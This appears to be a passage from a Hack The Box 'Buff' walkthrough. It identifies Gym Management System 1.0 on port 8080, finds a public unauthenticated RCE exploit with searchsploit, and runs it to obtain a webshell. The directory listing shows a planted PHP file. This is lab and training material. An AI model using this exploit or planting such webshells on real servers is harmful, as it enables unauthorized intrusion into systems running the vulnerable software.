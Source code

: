 ### Port 8080

A web application has been hosted on port `8080`
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/buff/web.png){: .align-center}

Going through the site, we can see that the site is built using `Gym Management System 1.0`

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/buff/web1.png){: .align-center}

### Searchsploit
A quick search using `searchsploit` gives an RCE vulnerability in the software. (Make sure your `searchsploit` is updated)

```bash
kali@kali:~/Desktop/htb/buff$ searchsploit gym Management
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - Unauthenticated Remote Code Execution                  | php/webapps/48506.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### User Shell
Running the exploit gives us RCE.
```bash
kali@kali:~/Desktop/htb/buff$ python web.py
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

(+) Usage:       python web.py <WEBAPP_URL>
(+) Example:     python web.py 'https://10.0.0.3:443/gym/'
kali@kali:~/Desktop/htb/buff$ python web.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> dir
�PNG

 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

02/08/2020  06:43    <DIR>          .
02/08/2020  06:43    <DIR>          ..
02/08/2020  06:43                53 kamehameha.php
               1 File(s)             53 bytes
               2 Dir(s)   9,423,310,848 bytes free

```
